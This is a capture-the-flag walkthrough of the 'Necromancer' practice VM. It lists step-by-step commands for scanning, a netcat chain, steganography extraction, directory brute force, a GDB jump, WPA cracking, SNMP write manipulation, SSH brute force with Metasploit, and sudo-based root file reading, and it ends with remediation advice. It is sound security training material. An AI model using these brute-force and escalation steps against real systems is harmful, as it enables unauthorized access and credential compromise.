





# The Necromancer: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.0.110 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | flag11.txt (root flag) |
| **Source** | [HackingArticles](http://www.hackingarticles.in/hack-necromancer-vm-ctf-challenge/) |

## Attack Summary

The Necromancer is a puzzle-style CTF with 11 flags hidden across UDP/TCP services, steganography, binary exploitation, wireless capture cracking, SNMP, and SSH brute force. Each flag unlocks the next service. Privilege escalation is trivial once SSH access is obtained: passwordless sudo on `/bin/cat` reads the root flag directly.

## Methodology

1. Host discovery with netdiscover
2. UDP service enumeration (ports 666, 31337, 777)
3. TCP 4444 base64 decode chain
4. HTTP steganography (image containing ZIP)
5. Custom wordlist + directory brute force
6. Binary exploitation with GDB (jump to alternate function)
7. 802.11 capture cracking with aircrack-ng
8. SNMP enumeration and write-access manipulation
9. SSH brute force with Metasploit
10. Privilege escalation via sudo `/bin/cat`

---

## Step 1: Host Discovery and TCP Scan

```bash
netdiscover -r 192.168.0.0/24
nmap -A -p- $TARGET
```



The full TCP scan returns **nothing open**. This signals UDP services are in use.

---

## Step 2: UDP Scan

```bash
nmap -sU -T4 -p- $TARGET
```

Discovers UDP port **666**. Connect with netcat:

```bash
nc -nvu $TARGET 666
```

Response: `You gasp for air! Time is running out!`

Run `tcpdump` to observe traffic:

```bash
tcpdump host $TARGET
```

The target connects back to **TCP 4444**.

---

## Step 3: TCP 4444 — First Flag and Chain

```bash
nc -nvlp 4444
```

Receive base64-encoded data. Decode it:

```bash
echo "<base64string>" | base64 -d
```

Flag 1 is an MD5 hash. Crack it (resolves to `opensesame`). Send the decoded passphrase back to UDP 666:

```bash
echo "opensesame" | nc -nvu $TARGET 666
```



Response indicates to explore port 80.

---

## Step 4: HTTP — Steganography

Browsing port 80 shows only an image (`pileoffeathers.jpg`). Use binwalk to check for embedded files:

```bash
binwalk /root/Desktop/pileoffeathers.jpg
```

A ZIP archive is embedded. Rename and extract:

```bash
mv pileoffeathers.jpg pileoffeathers.zip
unzip pileoffeathers.zip
cat feathers.txt
```

Decode the base64 in `feathers.txt` to get flag 3 and the path `/amagicbridgeappearsatthechasm`.

---

## Step 5: Directory Brute Force with Custom Wordlist

Generate a mythology-themed wordlist with CeWL:

```bash
cewl https://en.wikipedia.org/wiki/List_of_mythological_objects -d 0 \
  -w /root/Desktop/magicItems.txt -v
```

Brute force the hidden path:

```bash
dirb http://$TARGET/amagicbridgeappearsatthechasm \
  -w /root/Desktop/magicItems.txt
```

Discovers `/talisman` — download the binary.

---

## Step 6: Binary Exploitation with GDB

```bash
chmod 777 talisman
./talisman        # does nothing
gdb talisman
(gdb) info functions
(gdb) break wearTalisman
(gdb) run
(gdb) jump chantToBreakSpell
```



Flag 4 is displayed and a hint for UDP 31337 is given. Crack the MD5 (resolves to `blackmagic`):

```bash
echo "blackmagic" | nc -nvu $TARGET 31337
```

Flag 5 returned, along with a download link for a wireless capture file.

---

## Step 7: Wireless Capture Cracking

Download `necromancer.cap` from the URL provided. Crack the WPA handshake:

```bash
aircrack-ng necromancer.cap -w /usr/share/wordlists/rockyou.txt
```

WPA key: **`death2all`**

---

## Step 8: SNMP Enumeration and Manipulation

```bash
snmpwalk -c death2all -v 1 $TARGET
```

A locked door is reported. Use the write community string to unlock it:

```bash
snmpset -c death2allrw -v 1 $TARGET iso.3.6.1.2.1.1.6.0 s "Unlocked"
snmpwalk -c death2all -v 1 $TARGET
```



Flag 7 is returned. Its MD5-style value cracks to `demonslayer` — the SSH username.

---

## Step 9: SSH Brute Force

```bash
# In Metasploit
use auxiliary/scanner/ssh/ssh_login
set rhosts $TARGET
set username demonslayer
set pass_file /usr/share/wordlists/rockyou.txt
run
```

Password found: **`12345678`**

Log in manually:

```bash
ssh demonslayer@$TARGET
ls -la
cat flag8.txt
```

---

## Step 10: UDP 777 Quiz and Final Flag

```bash
nc -u localhost 777
```

Answer three trivia questions (Kelewan, Mephistopheles, Hedge) to receive flags 8–10.

Check hidden file:

```bash
cat .smallvile
```

---

## Step 11: Privilege Escalation — sudo /bin/cat

```bash
sudo -l
```

Output: `(ALL) NOPASSWD: /bin/cat`

```bash
sudo /bin/cat /root/flag11.txt
```



Root flag captured.

---

## Lessons Learned

- UDP services are easily missed if you only run TCP scans; always include `-sU`.
- Steganography is a common CTF technique for hiding data inside images.
- Custom wordlists built from context-relevant sources outperform generic lists for directory brute force.
- GDB can be used to jump to non-called functions, bypassing normal execution flow.
- Default or weak SNMP community strings provide read/write access to device configuration.
- Passwordless sudo on any utility (even read-only ones like `cat`) is a privilege escalation vector.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| UDP services with no authentication | Require authentication tokens; firewall unused UDP ports |
| SNMP with default community strings | Change community strings; disable SNMP if not needed |
| Wireless WPA weak passphrase | Use a strong (20+ char) random WPA2/3 passphrase |
| Weak SSH password | Enforce key-based SSH auth; disable password auth |
| Passwordless sudo on /bin/cat | Remove unnecessary sudo rules; use least-privilege |
